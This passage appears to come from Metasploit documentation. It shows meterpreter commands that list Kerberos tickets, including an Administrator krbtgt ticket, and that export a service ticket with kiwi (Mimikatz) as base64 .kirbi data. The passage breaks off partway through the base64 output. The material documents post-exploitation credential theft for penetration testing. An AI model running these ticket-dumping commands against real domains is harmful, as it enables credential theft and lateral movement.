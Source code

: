 Tickets in the current session can be viewed like so:

```

meterpreter > kerberos_ticket_list
[+] Kerberos tickets found in the current session.
[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 12/16/2022 3:35:41 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : krbtgt/EXAMPLE.COM @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : https/TSTWLPT1000000 @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
```

**Export Service Tickets**

```
meterpreter > kiwi_cmd kerberos::list /export

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : https/TSTWLPT1000000 @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
====================
Base64 of file : 1-40a10000-Administrator@https~TSTWLPT1000000-EXAMPLE.COM.kirbi
====================
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
```